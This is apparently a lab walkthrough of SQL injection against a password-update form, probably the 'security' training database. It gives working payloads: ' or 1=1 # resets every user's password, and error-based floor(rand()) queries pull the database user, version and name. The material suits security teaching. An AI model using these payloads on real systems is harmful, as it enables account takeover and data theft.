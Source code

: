 ﻿Here we are greeted with a a form or a login page which asks us to insert the username and a new password that will be further changed in the database.

![](Aspose.Words.dbaad557-632d-4ae7-af4e-b217afd35eb7.001.png)

![](Aspose.Words.dbaad557-632d-4ae7-af4e-b217afd35eb7.001.png)

**PAYLOAD:** Username:admin

`	       `New Password:123456

As we know that admin is an entry in the database and is also a user we will proceed by using “admin” as our username and change or update our password to 123456.

![](Aspose.Words.dbaad557-632d-4ae7-af4e-b217afd35eb7.001.png)

**PAYLOAD:** use security;

`                   `select database();**   	
**
`                   `select \* from users where username="admin";    

Using the terminal we can also confirm whether the password for the user “admin” is changed, using mysql in the terminal.

![](Aspose.Words.dbaad557-632d-4ae7-af4e-b217afd35eb7.001.png)

Now no matter whatever character we use to break the query in the username field may it be ‘,”,’),”),/ etc we get the same message over and over again.

![](Aspose.Words.dbaad557-632d-4ae7-af4e-b217afd35eb7.001.png)

Here we input the username as admin (which is one of the registered users in the database) and try to break the query in the password field. Which ends up giving us an error message.

![](Aspose.Words.dbaad557-632d-4ae7-af4e-b217afd35eb7.001.png)

**PAYLOAD:** ' or 1=1 #

While we use the username as “admin” and the password as a sqli injection query we see that there is no error message that interrupts the webpage but the message pops up saying that the password is simply updated.

![](Aspose.Words.dbaad557-632d-4ae7-af4e-b217afd35eb7.001.png)

Here we see that the password of the user “admin has been changed to 1 and cont only admin but all the corresponding 14 entries have changed passwords now like so.

![](Aspose.Words.dbaad557-632d-4ae7-af4e-b217afd35eb7.001.png)

Now we have found a new injection point where all the entries have their passwords updated or set to “1”.

**PAYLOAD:**’ AND (select 1 from(select count(\*),(concat(“~”,select user()),”~”,floor(rand(0)\*2)))c from information\_schema.tables group by c)a) #

Using the above payload and inputting it as the password we will be able to retrieve the current user and by changing the ‘ AND (select 1 from(select count(\*),(concat(“~”,select user()),”~”,floor(rand(0)\*2)))c from information\_schema.tables group by c)a) # part of the database we will be able to retrieve or extract even more data like so.

Like for example: ‘ AND (select 1 from(select count(\*),(concat(“~”,select version()),”~”,floor(rand(0)\*2)))c from information\_schema.tables group by c)a) #

` `AND (select 1 from(select count(\*),(concat(“~”,select database()),”~”,floor(rand(0)\*2)))c from information\_schema.tables group by c)a) #




